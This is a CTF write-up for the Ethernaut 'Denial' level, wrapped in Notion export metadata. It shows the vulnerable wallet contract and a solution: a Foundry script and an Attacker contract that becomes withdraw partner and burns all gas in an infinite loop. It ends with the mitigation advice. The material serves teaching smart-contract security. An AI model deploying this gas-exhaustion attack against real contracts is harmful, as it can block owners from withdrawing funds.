 ```yaml
---
title: "Denial"
date: "2024-02-25T10:37:00.000Z"
lastmod: "2024-02-26T09:11:00.000Z"
draft: false
difficulty: "⭐⭐⭐"
prev: "Alien-Codex-d14fa389394f4031b7c2ffcdeeebeb56"
weight: 21
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/20"
next: "Shop-b6f28652a23642f2805fd50f577ea02f"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "edd8839c-e63a-4a21-94ad-fd2905ad4940"
  created_time: "2024-02-25T10:37:00.000Z"
  last_edited_time: "2024-02-26T09:11:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel20.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "aa1cb61f-428e-4dc4-abad-06b3092cb0ce"
        name: "⭐⭐⭐"
        color: "green"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Alien-Codex-d14fa389394f4031b7c2ffcdeeebeb56"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Alien-Codex-d14fa389394f4031b7c2ffcdeeebeb56"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 21
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/20"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Shop-b6f28652a23642f2805fd50f577ea02f"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Shop-b6f28652a23642f2805fd50f577ea02f"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Denial"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Denial"
          href: null
  url: "https://www.notion.so/Denial-edd8839ce63a4a2194adfd2905ad4940"
  public_url: null
UPDATE_TIME: "2024-02-26T13:02:37.145Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


This is a simple wallet that drips funds over time. You can withdraw the funds
slowly by becoming a withdrawing partner.


If you can deny the owner from withdrawing funds when they call `withdraw()`
(whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Attacker,Denial} from '../src/20.sol';

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_20");

        vm.startBroadcast(deployerPrivateKey);

        new Attacker(addr);

        vm.stopBroadcast();
    }
}
```


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface Denial {
    function setWithdrawPartner(address _partner) external;
}

contract Attacker {
  Denial denial;

  constructor(address _denial) {
    denial = Denial(_denial);
    denial.setWithdrawPartner(address(this));
  }

  // Classic DOS attack
  receive() external payable {
    uint i = 0;
    while (true) {
      i++;
    }
  }
}
```


This level demonstrates that external calls to unknown contracts can still
create denial of service attack vectors if a fixed amount of gas is not
specified.


If you are using a low level `call` to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example `call.gas(100000).value()`.


Typically one should follow the [checks-effects-interactions](http://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern)
 pattern to avoid reentrancy attacks, there can be other circumstances 
(such as multiple external calls at the end of a function) where issues 
such as this can arise.


_Note_: An external `CALL` can use at most 63/64 of the gas currently available
at the time of the `CALL`.  Thus, depending on how much gas 
is required to
complete a transaction, a transaction of sufficiently high gas (i.e. one
 such
that 1/64 of the gas is capable of completing the remaining opcodes in 
the parent call) can be used to mitigate this particular attack.

